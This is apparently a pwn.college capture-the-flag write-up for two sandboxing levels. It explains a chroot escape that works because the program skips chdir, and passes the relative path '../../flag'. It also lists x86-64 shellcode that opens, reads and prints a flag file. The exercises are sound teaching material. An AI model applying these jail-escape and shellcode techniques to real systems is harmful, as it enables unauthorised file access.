 # Sandboxing

{% hint style="info" %}
You can find the full code for all challenges [here](https://github.com/kunalwalavalkar/Pwn-College/tree/main/Sandboxing).
{% endhint %}



## level 1

> This challenge will chroot into a jail in /tmp/jail-XXXXXX. You will be able to easily read a fake flag file inside this jail, not the real flag file outside of it. If you want the real flag, you must escape. The only thing you can do in this challenge is read out one single file, as specified by the first argument to the program (argv\[1]).

* Let's look at the source code.

```
assert(chroot(jail_path) == 0);
```

* Notice that even though the jail has been set, the program did not change directory to `/` and put us in that jail.
* That means we are effectively not in jail.
* If we give it `/flag` as `argv[1]`, it is interpreted as `/tmp/jail/flag`, which gives us the fake flag.
* In order to get the real flag, we have to pass the relative address of the real `/flag` from `/tmp/jail/`.

```
~$ /challenge/babyjail_level1 ../../flag 
```

* The first `..` escapes from the `jail/` and second `..` escapes from the `/tmp/` directory.



## level 2

> You may open a specified file, as given by the first argument to the program (argv\[1]). You may upload custom shellcode to do whatever you want.

* We can use the shellcode that we wrote for Shellcode Injection.

```armasm
.global _start
.intel_syntax noprefix

_start:
	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Read syscall
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 1000
	mov rax, 0x00
	syscall

	# Write syscall
	mov rdi, 1
	mov rax, 0x01
	syscall
```
